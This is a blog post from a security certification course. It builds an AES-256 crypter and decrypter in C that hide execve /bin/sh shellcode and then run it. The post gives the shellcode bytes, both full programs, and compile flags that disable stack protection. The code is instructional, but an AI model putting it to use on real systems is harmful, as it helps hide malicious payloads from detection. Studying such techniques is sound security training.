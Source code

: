 ```yaml
---
title: "SLAE64 - Assignment #7 - Custom Crypter"
tags: ["slae64", "assembly", "shellcode", "exploit-development"]
---
```


## Introduction

This is the blog post for the 7<sup>th</sup> and final Assignment of the SLAE64 course, which is offered by <a href="https://www.pentesteracademy.com/course?id=7" target="_blank">PentesterAcademy</a>. The course focuses on teaching the basics of 64-bit Assembly language for the Intel Architecture (IA-x86_64) family of processors on the Linux platform.

The purpose of this assignment is to encrypt the shellcode with an existing encryption schema and decrypt and execute it at runtime. The algorithm that was used is `AES` and the key length is `256 bits` (32 bytes). The block cipher mode used for AES is `CBC` (cipher-block chaining), which perfmorms `XOR` between the first plaintext block and the initialization vector before encrypting it. The implementation of `AES` can be found at this great repository: <a href="https://github.com/kokke/tiny-AES-c" target="_blank">Tiny AES in C</a>.   

My code can be found in my Github: <a href="https://github.com/geobour98/slae64" target="_blank">geobour98's Github</a>.

## AES256 Crypter

In order to implement the crypter we need to download the following 2 files from the <a href="https://github.com/kokke/tiny-AES-c" target="_blank">Tiny AES in C</a> repository: <a href="https://github.com/kokke/tiny-AES-c/blob/master/aes.c" target="_blank">aes.c</a> and <a href="https://github.com/kokke/tiny-AES-c/blob/master/aes.h" target="_blank">aes.h</a>. By default, `AES128` is used, but there are options for `AES192` and `AES256`. The only changes that we have to do to use `AES256` are to comment the definition of `AES128` and uncomment the definition of `AES256`, as shown below in <a href="https://github.com/geobour98/slae64/blob/main/7_Custom_crypter/aes.h#L27" target="_blank">aes.h</a>: 

```c
//#define AES128 1
//#define AES192 1
#define AES256 1
```

The encryption happens on the shellcode extracted from `execve-stack`, which is described in previous blog posts and basically executes "/bin/sh". It and can be found below:

```shell
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
```

So, now the above shellcode is declared in the the crypter program <a href="https://github.com/geobour98/slae64/blob/main/7_Custom_crypter/aesencrypt.c" target="_blank">aesencrypt.c</a>. It is very important to note that since we are using 32 byte blocks, then the size of the shellcode must be padded until we reach 32 (or another number divisinle by 32) bytes. Fortunately, the size of the original shellcode is `32`, so we don't need to add more bytes. 

Next, the `32` byte (256-bit) encryption key and the `16` byte initialization vector are declared.

```c
	unsigned char key[] = "0123456789abcdef0123456789abcdef";
	unsigned char iv[] = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10";
```

After that, we use the provided API to initialize the calling context with `AES_init_ctx_iv` and start encrypting with `AES_CBC_encrypt_buffer`.

```c
	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_encrypt_buffer(&ctx, code, shellcodeSize);
``` 

Then, we simple print the encrypted shellcode.

```c
	for (int i = 0; i < shellcodeSize - 1; i++) {
		printf("\\x%02x", code[i]);
	}
```

Also, we must include `aes.h` in `aesencrypt.c` in order to use the functions `AES_init_ctx_iv` and `AES_CBC_encrypt_buffer` and define the `CBC` mode.

```c
#include "aes.h"
#define CBC 1
```

The whole `C` program can be found below:

```c
#include <stdio.h>
#include <string.h>
#include "aes.h"
#define CBC 1

unsigned char code[] =
"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
{
        size_t shellcodeSize = sizeof(code);

        unsigned char key[] = "0123456789abcdef0123456789abcdef";
        unsigned char iv[] = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10";

        struct AES_ctx ctx;
        AES_init_ctx_iv(&ctx, key, iv);
        AES_CBC_encrypt_buffer(&ctx, code, shellcodeSize);

        printf("AES Encrypted Shellcode: \n");

        for (int i = 0; i < shellcodeSize - 1; i++) {
                printf("\\x%02x", code[i]);
        }

        printf("\n");
}
```

## AES256 Decrypter

The generation of the encrypted shellcode will be shown later, but we assume it's the following:

```shell
\x11\xc4\xf1\x6e\x1a\x61\xae\xec\x83\x40\xe7\xaf\xfa\x43\x32\x2d\x7f\xb7\xde\xec\x16\xfd\x99\x58\x8d\xda\x72\x09\xbc\xa9\x48\x88
```

So, now the above shellcode is declared in the decrypter program <a href="https://github.com/geobour98/slae64/blob/main/7_Custom_crypter/aesdecrypt.c" target="_blank">aesdecrypt.c</a>.

Again, we declare the encryption key and the initialization vector as previously. The initialization of the calling context happens again with `AES_init_ctx_iv` and the decryption starts with `AES_CBC_decrypt_buffer`.

```c
	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, code, shellcodeSize);
```

Then, the decrypted shellcode is printed to the screen and gets executed.

```c
	int (*ret)() = (int(*)())code;

    ret();
```

The whole `C` program can be found below:

```c
#include <stdio.h>
#include <string.h>
#include "aes.h"
#define CBC 1

unsigned char code[] = 
"\x11\xc4\xf1\x6e\x1a\x61\xae\xec\x83\x40\xe7\xaf\xfa\x43\x32\x2d\x7f\xb7\xde\xec\x16\xfd\x99\x58\x8d\xda\x72\x09\xbc\xa9\x48\x88";

int main()
{
	size_t shellcodeSize = sizeof(code);

	unsigned char key[] = "0123456789abcdef0123456789abcdef";
	unsigned char iv[] = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10";

	struct AES_ctx ctx;
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, code, shellcodeSize);

	printf("Decrypted Shellcode: \n");

	for (int i = 0; i < shellcodeSize - 1; i++) {
		printf("\\x%02x", code[i]);
	}

	printf("\n\nExecuting Shellcode...\n");

	int (*ret)() = (int(*)())code;

        ret();
}
```

## Testing Crypter/Decrypter

In order to prove that the processes of encryption and decryption happen and the shellcode gets executed we first have to compile `aes.c` and `aesencrypt.c` to create the `aesencrypt` executable.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/7_Custom_crypter$ gcc aesencrypt.c aes.c -o aesencrypt
```

Then, we execute `aesencrypt` and get the AES encrypted shellcode:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/7_Custom_crypter$ ./aesencrypt 
AES Encrypted Shellcode: 
\x11\xc4\xf1\x6e\x1a\x61\xae\xec\x83\x40\xe7\xaf\xfa\x43\x32\x2d\x7f\xb7\xde\xec\x16\xfd\x99\x58\x8d\xda\x72\x09\xbc\xa9\x48\x88
``` 

This is the encrypted shellcode that goes to `aesdecrypt.c`. Now we compile `aesdecrypt.c` and `aes.c` to generate `aesdecrypt`, by disabling the stack protection as well as making the stack executable:

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/7_Custom_crypter$ gcc -fno-stack-protector -z execstack aesdecrypt.c aes.c -o aesdecrypt
```

Finally, we execute `aesdecrypt` and get in a "/bin/sh" shell, where we execute commands like `ls` and `id`.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/7_Custom_crypter$ ./aesdecrypt 
Decrypted Shellcode: 
\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05

Executing Shellcode...
$ ls
aes.c  aes.h  aesdecrypt  aesdecrypt.c	aesencrypt  aesencrypt.c  execve-stack	shellcode  shellcode.c
$ id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ exit
geobour98@slae64-dev:~/SLAE/custom/SLAE64/7_Custom_crypter$ 
```

## Summary

The encryption/decryption processes and the shellcode are working as expected!

This sums up the SLAE64 exam!

The training and the challenges are great and i highly recommend doing them!

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **SLAE64 Blog Post**
>
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> 
> https://www.pentesteracademy.com/course?id=7
>
> ~~http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/~~
>
> **Student ID: PA-36167**
{: .prompt-info }
<!-- markdownlint-restore -->
